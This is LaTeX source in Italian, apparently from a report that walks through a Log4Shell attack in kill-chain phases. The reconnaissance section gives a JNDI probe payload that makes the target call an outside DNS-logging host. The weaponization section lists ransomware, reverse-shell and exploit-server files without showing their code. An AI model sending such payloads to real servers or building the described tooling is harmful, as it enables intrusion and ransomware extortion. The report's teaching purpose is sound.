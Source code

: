 \documentclass[a4paper, 12pt]{article}
\begin{document}
\subsubsection{Reconnaissance}
Nella prima fase, l’attaccante interagisce con gli host e con la rete target alla ricerca di un endpoint in ascolto su qualsiasi protocollo che permetta di inviare il payload malevolo (reconnaissance attiva).
Una volta individuata l'applicazione web sulla porta 8080 alla quale inviare richieste HTTP, è opportuno assicurarsi che questa sia effettivamente vulnerabile a Log4Shell.

Il modo più semplice per rilevare se un endpoint remoto è vulnerabile, consiste nell'attivare una query DNS. 
Utilizzando un logger DNS online (ad esempio \href{http://dnslog.cn}{dnslog}), è possibile generare un nome di dominio ed inserirlo nell'URL JNDI di un payload di prova.
\begin{center}
    \verb!${jndi:ldap://fchcia.dnslog.cn/a}!
\end{center}
A questo punto è necessario inviare il payload attraverso una richiesta HTTP,  l'exploit farà sì che il server tenti di recuperare dei dati in remoto, permettendo di rilevare una eventuale attivazione della vulnerabilità.
\`E possibile automatizzare l'operazione attraverso strumenti come i vulnerability scanner reperibili online.

\begin{figure}
\centering
\includegraphics[width=1\textwidth]{img/dnslog.png}
\caption{Query DNS effettuate tramite JNDI}
\label{fig:dnslog}
\end{figure}

\subsubsection{Weaponization}
Questa fase consiste nel creare il malware per cifrare i dati e generare un payload per sfruttare la vulnerabilità identificata.
A tale scopo sono stati implementati i seguenti file:
\begin{itemize}
    \item \verb!Ransomware.java!: contiene il codice del malware che si occupa di cifrare i dati.
    \item \verb!ReverseShell.java!: contiene il codice per aprire una reverse shell sulla macchina avversaria.
    \item \verb!exploit.py!: avvia i servizi LDAP e HTTP sul server attaccante e genera il payload malevolo.
\end{itemize}
\end{document}
